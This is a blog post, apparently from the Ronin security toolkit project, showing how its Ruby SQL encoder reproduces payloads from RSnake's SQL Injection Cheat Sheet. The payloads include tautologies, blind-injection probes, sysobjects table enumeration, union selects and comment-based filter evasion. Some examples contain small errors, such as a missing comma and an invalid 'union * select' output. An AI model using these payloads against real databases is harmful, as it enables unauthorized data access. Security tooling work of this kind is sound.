 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the
[Spring Cleaning Campaign (2010)](/blog/2010/01/12/spring-cleaning.html)
was a simple Ruby->SQL encoder for the
[Ronin SQL](http://github.com/ronin-ruby/ronin-sql/) library, to replace the
overly complex Ronin SQL DSL. This encoder would format Ruby Integers,
Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point
of being able to recreate most of the examples from
[RSnake's SQL Injection Cheat Sheet](http://ha.ckers.org/sqlinjection/):

Load `ronin-sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_s
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_s
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_s
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_s
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate tablenames by brute-force
iteration through potential names:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :tablenames]]].to_s
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_s
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling fake tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_s
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_s
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(sql.lower(sql.substring( [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1))), :gt, 116].to_s
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the sysObjects table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_s
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter evasion using comment tags:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_s
# => "1 union select * from where"

stmt.spaces = false
stmt.to_s
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
  I cheated a little by leaving off the prefix/suffix tick-marks used in
  SQL injections, but you get the general idea.
  </p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.
